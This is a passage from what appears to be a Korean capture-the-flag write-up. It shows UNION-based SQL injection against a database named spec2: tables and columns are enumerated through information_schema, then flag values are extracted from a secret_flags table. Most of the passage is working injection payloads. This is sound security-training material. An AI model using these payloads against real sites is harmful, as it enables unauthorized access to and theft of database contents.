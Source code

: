 ![union select](/assets/web-screenshots/union-sqli/spec2_database.png)

> 데이터베이스 이름 **spec2**

이제 `information_schema.tables`를 이용해 데이터베이스 spec2 내의 테이블 목록을 확인해보았다.

```html
13+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec2'+limit+2,1),2,3,4,5,6,7,8--+
```

쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

이후 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
13+union+select+(select+column_name+from+information_schema.columns+where+table_schema='spec2'+and+table_name='secret_flags'+limit+?,1),2,3,4,5,6,7,8--+
```

쿼리 실행 결과, 아까랑 같은 **id, flag_name, flag_value** 라는 컬럼명을 확인할 수 있었다.

이후 `secret_flags` 테이블에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
13+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

13+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

이 결과를 통해 `flag_name` 의 5번째 행이 **real_flag** 임을 확인할 수 있었고, 나머지 행들은 모두 `fake_flag`로 설정되어 있었다.
